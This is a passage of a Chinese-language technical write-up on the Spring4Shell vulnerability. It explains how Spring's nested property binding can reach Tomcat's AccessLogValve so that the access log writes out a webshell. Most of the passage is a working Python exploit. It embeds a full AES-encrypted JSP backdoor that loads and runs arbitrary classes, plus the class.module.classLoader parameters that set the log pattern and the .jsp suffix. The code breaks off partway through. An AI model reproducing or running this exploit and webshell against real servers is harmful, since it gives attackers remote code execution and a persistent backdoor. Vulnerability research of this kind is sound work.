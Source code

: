 ![image-20220404135822681](./image-20220404135822681.png)

而我们可以通过`org.springframework.beans/AbstractNestablePropertyAccessor::setPropertyValue`进行属性注入。

值得一提的是，该类在进行`setPropertyValue`时，允许使用嵌套属性的数据结构，这对于实际Web应用而言可能比较重要。

例如，POJO是Form，Form中有两个成员分别是User对象以及Capath对象，这个时候允许使用嵌套属性，我们提交的表单可能就非常简单：

```http
http://server/?user.uid=11&user.pwd=22&capath.code=yzm
```

对于简化开发流程而言有着不错的效果。

但是在此处，这也极大的方便了我们进行属性覆盖。

前面提到，我们可以通过通过Class.getModule()拿到一个Module对象，从而不断地深入拿到Tomcat Catalina的AccessLogValve对象，通过对该对象进行属性覆盖，我们就能控制Tomcat的日志写向，以及日志写出内容。

于是通过日志写WebShell就顺理成章了。

![image-20220404141609391](./image-20220404141609391.png)

最终的一个exp如下：

```python
import requests

header_name = 'springcore'
headers = {
    header_name: "%",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4606.61 Safari/537.36"
}
jsp_shell = '<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}%>'

jsp_shell = jsp_shell.replace("%", "%{"+header_name+"}i")

data = {
    "class.module.classLoader.resources.context.parent.pipeline.first.pattern": jsp_shell+"<!--",
    "class.module.classLoader.resources.context.parent.pipeline.first.suffix": ".jsp",
```